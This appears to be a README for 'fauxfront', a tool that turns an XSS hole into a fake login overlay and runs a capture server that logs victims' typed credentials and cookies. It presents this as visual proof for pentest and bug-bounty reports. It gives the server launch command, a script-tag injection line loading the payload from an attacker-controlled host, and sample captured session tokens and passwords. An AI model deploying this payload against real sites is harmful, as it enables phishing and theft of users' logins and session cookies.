

For fun (and profit) a better way to write up an XSS finding, either for an authorized pentest or bug-bounty, is to ditch the overly common `alert(1)` or `alert(origin)` and show something more visual. While there's many ways to legitimately abuse an XSS for a variety of attack scenarios, for reporting purposes a visual payload is better suited.

`fauxfront` helps exactly in that regard, generating a small JS payload that overlays a fake login page on an XSS-vulnerable endpoint, and sets up a capture server to log incoming cookies and "victim" credentials.

## What it does

- Drops a pseudo-legitimate login card onto the vulnerable page
- Captures whatever the victim types to your server
- Optionally exfiltrates `document.cookie` on load
- Cookie-busts itself so the overlay only fires once per victim
- Closes itself cleanly so nothing looks broken afterwards
- Logs captures as compact, screenshot-friendly plaintext

## Building & Usage

Main requirements for building are make and an up-to-date golang installation.

```
make              # both binaries
make build        # just fauxfront
make demo-app     # just the intentionally-vulnerable test app

make linux-amd64  # cross-compile; also darwin-arm64, windows-amd64, ...
make release      # every platform in PLATFORMS
```

Binaries land in `dist/`, named `<bin>-<os>-<arch>[.exe]`.

The capture server can easily be started with, for example:

```
$ [sudo] ./fauxfront-darwin-arm64 \
    -addr 10.11.12.13:80          \
    -plain-http                   \
    -title "Sign In"              \
    -grab-cookies                 \
    -attempts 1

listening   http://10.11.12.13:80
capture     http://10.11.12.13:80/c/f7c5d924028cb24a0540ef7fe132d6a01c9c66ed93e9e7ec
payload     http://10.11.12.13:80/e051.js
injection   <script src="http://10.11.12.13:80/e051.js"></script>
```

You could also use the built-in self signed generation, or point it to Let's Encrypt certificte and key.

The `fauxfront-demo` companion project is a deliberately vulnerable guestbook for testing the whole flow locally without touching a real target. It stores comments as raw HTML and sets a few dummy cookies on load (including one `HttpOnly`) so you can verify credential and cookie exfiltration end-to-end.

Once started up, and the payload of `<script src="http://10.11.12.13:80/e051.js"></script>` injected, the fake login prompt would look as follows:



Once the victim browses the vulnerable page and enters their credentials on the fake login prompt, the capture server picks them up and prints them in a screenshot friendly layout:

```
listening   http://10.11.12.13:80
capture     http://10.11.12.13:80/c/f7c5d924028cb24a0540ef7fe132d6a01c9c66ed93e9e7ec
payload     http://10.11.12.13:80/e051.js
injection   <script src="http://10.11.12.13:80/e051.js"></script>

09:09:20  ::1  cookies
  auth_token: at_f01ef74158eb961149f80593a495583d
  csrftoken: csrf_e02761ebd0cb29a3da070a57
  uid: 42
09:09:59  ::1
  username: admin
  password: P4ssw0rd1234
```

The repo contains a more in-depth set of instructions, considerations, and command-line flags.
